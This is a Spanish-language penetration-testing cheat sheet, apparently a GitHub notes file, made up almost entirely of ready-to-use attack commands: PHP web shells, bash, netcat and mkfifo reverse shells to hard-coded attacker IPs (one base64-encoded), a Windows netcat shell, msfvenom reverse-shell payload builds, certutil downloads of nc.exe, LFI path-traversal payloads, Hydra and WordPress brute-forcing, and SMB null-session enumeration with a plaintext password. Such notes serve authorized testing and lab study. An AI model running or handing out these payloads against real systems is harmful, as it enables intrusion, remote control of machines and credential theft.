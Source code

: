 # Chuleta para pentesting

## Compartir con host

```bash
sudo /usr/bin/vmhgfs-fuse .host:/ /home/kali/compartida -o subtype=vmhgfs-fuse,allow_other

```

## PHP

```php
 <?php system($_REQUEST['cmd']); ?>

 <?php
	if(isset($_REQUEST['cmd'])){
	    echo "<pre>";
	    $cmd = ($_REQUEST['cmd']);
	    system($cmd);
	    echo "</pre>";
	    die;
	}
?>
```

## Reverse Shells

### En Linux:
```bash
bash -c "bash -i >& /dev/tcp/192.168.168.130/443 0>&1"

# Por http
bash -c "bash -i >%26 /dev/tcp/192.168.168.130/443 0>%261"

#Por base64
#Preparacion en atacante
echo "bash -c 'bash -i >%26 /dev/tcp/192.168.168.130/443 0>%261'" | base64
#Comando victima:
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44Ljc2LjExMi80NDMgMD4mMQo=" | base64 -d | bash

#Con nc
nc -e /bin/sh 92.168.168.130 443

# Con nc sin párametro -e
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.168.130 443 >/tmp/f

# Con php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.168.130 443 >/tmp/f'); ?>

```

### En Windows:

```bash
#Con nc
cmd.exe /c "C:\users\joe\documents\nc.exe -e cmd.exe 192.168.11.160 4444"
```
## Fuzzing

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.11.133/FUZZ 



```
## Tratamiento de la TTY

Previamenta al tratamiento hemos de asegirarnos que estamos en una **bash**. Antes de ponernos a la escucha con nc:

```console
echo $SHELL
# Si el resultado no es /bin/bash hay que lanzar bash
bash 
# Luego lanzar
nc -nlvp 4444
```

```bash
# En victima:
script /dev/null -c bash
# En python:
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL_Z para pasar a segundo plano
# En atacante
stty raw -echo; fg
# En victima
reset xterm
export SHELL=/bin/bash
export TERM=xterm
# Previamente en atacante stty size para ver las dimensiones
stty rows 59 columns 227
```

## LFI

```bash
# Escapando caracteres
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd%00

# Filtro en BASE64
php://filter/convert.iconv.utf-8.utf-16/resource=test.php
```

## Fuerza bruta
```bash
#Hydra
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.29.199


```
## SMB

```bash
# Listar recursos con sesión nula
smbclient -N -L //10.10.66.180/
# Tambien
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"

# Con smbmap y sesion nula
smbmap -H 10.10.10.1000
smbmap -H 10.10.10.237 -u 'null'
#Para conectar ver lo que tiene un recurso, paramero -r:
smbmap -H 10.10.10.1000 -r Replication
#Para descargarnos algo, parámetro --download
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
#Con credenciales:
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups

#SMBGET: Para descargar un directorio entero:
smbget -R smb://active.htb/Replication -U ""

# Ver unidades montadas
showmount -e 10.10.10.180

# Montar unidad
mount -t nfs 10.10.10.180:/site_backups /mnt/nfs
```
## CMS

### Wordpress

```bash
#Inicial
wpscan --url http://10.10.103.70

# Enumerar usuarios
wpscan --url http://10.10.103.70 -e u

# Buscar plugins vulnerables
wpscan --url http://10.10.103.70 -e vp

# Fuerza bruta
wpscan --url https://10.10.103.70/wp-login.php -U Elliot -P fsocity_sorted.dic 
```

## MSFVENOM

```bash
# aplicación war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.11.160 LPORT=443 -f war > reverse.war

# Para BufferOverflow
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.196.198 LPORT=443 --platform windows -a x86 -b "\x00" -f c

# Como ejecutable para Windows
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```

## Traspaso de archivos

## En linux

```bash
# Abriendo un servidor http
sudo python3 -m http.server 80

# Compartiendo un recurso SMB
```

## En windows

```cmd
certutil.exe -f -urlcache -split http://192.168.11.160/nc.exe c:\\windows\temp\nc.exe
```
## Escalada

### Permisos SUID

```bash
find \-perm -4000 2>/dev/null

find / -perm -4000 2>/dev/null | xargs ls -lah

find / -perm -u=s -type f 2>/dev/null
```
### Capabilities

```bash
getcup -r / 2>/dev/null

```

## Otros

Trazas icmp
```bash
sudo tcpdump -i tun0 icmp -n
```